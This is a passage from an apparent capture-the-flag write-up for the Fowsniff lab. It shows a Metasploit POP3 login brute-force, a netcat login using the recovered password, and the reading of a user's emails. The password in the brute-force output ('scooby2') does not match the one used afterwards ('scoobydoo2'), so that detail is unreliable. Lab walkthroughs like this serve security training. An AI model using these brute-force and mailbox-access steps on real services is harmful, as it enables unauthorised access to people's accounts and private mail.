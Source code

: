 We are now all set to brute force the login.

```
msf6 auxiliary(scanner/pop3/pop3_login) > run

[+] 10.10.251.22:110            - 10.10.251.22:110 - Success: seina:scooby2
```

### No answer needed

###

### What was seina's password to the email service?

### Answer

```
scoobydoo2
```

###

### Can you connect to the pop3 service with her credentials? What email information can you gather?

* We can connect to the Pop3 service using `nc`.

```
$ nc 10.10.251.22 110    
+OK Welcome to the Fowsniff Corporate Mail Server!
user seina
+OK
pass scoobydoo2
+OK Logged in.
```

### No answer needed

###

### Looking through her emails, what was a temporary password set for her?

We can use the `list` command to list out the contents.

```
list
+OK 2 messages:
1 1622
2 1280
.
```

There are two messages. Let's read the first message using `retr`.

```
retr 1
+OK 1622 octets
Return-Path: <stone@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1000)
        id 0FA3916A; Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
To: baksteen@fowsniff, mauer@fowsniff, mursten@fowsniff,
    mustikka@fowsniff, parede@fowsniff, sciana@fowsniff, seina@fowsniff,
    tegel@fowsniff
Subject: URGENT! Security EVENT!
Message-Id: <20180313185107.0FA3916A@fowsniff>
Date: Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
```
